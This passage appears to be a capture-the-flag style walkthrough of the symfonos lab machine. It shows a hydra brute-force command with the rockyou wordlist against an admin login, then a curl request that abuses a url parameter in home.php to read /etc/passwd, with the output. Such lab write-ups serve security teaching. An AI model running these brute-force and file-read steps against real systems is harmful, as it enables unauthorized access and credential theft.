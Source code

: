 The portraits.php page has three other pictures of zeus. The admin.php is a login page, with a username and password to enter and not much else given away. Can try attacking this login page with the username of zeus, but this doesn't work.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ hydra -l zeus -P /usr/share/wordlists/rockyou.txt 192.168.34.156 http-get-form "/admin.php:username=^USER^&password=^PASS^:Invalid login"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-20 20:49:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get-form://192.168.34.156:80/admin.php:username=^USER^&password=^PASS^:Invalid login
[STATUS] 1547.00 tries/min, 1547 tries in 00:01h, 14342852 to do in 154:32h, 16 active
...
```

While this was running, check out home.php. Though it redirects to admin.php, the page can be curl'd to see the contents before the redirection occurs, as there does appear to be content in the page.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ curl http://192.168.34.156/home.php
<html>
<head>
<link rel="stylesheet" type="text/css" href="/static/bootstrap.min.css">
</head>
<body>
<nav class="navbar navbar-expand-lg navbar-dark bg-dark">
  <a class="navbar-brand" href="home.php">symfonos</a>
  <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarColor02" aria-controls="navbarColor02" aria-expanded="false" aria-label="Toggle navigation">
    <span class="navbar-toggler-icon"></span>
  </button>

  <div class="collapse navbar-collapse" id="navbarColor02">
    <ul class="navbar-nav mr-auto">
      <li class="nav-item">
        <a class="nav-link" href="home.php">Home</a>
      </li>
      <li class="nav-item">
        <a class="nav-link" href="http://127.0.0.1/home.php?url=http://127.0.0.1/portraits.php">Portraits</a>
      </li>
      <li class="nav-item">
        <a class="nav-link" href="logout.php">Logout</a>
      </li>
    </ul>
  </div>
</nav><br />
<center>
<h3>Under Developement</h3></center>
</body>

```
Looking at the above, it looks as though the home.php page includes a url parameter which redirects to a specified URL. For example, curling for /etc/passwd shows the passwd file.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ curl 'http://192.168.34.156/home.php?url=/etc/passwd'
...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```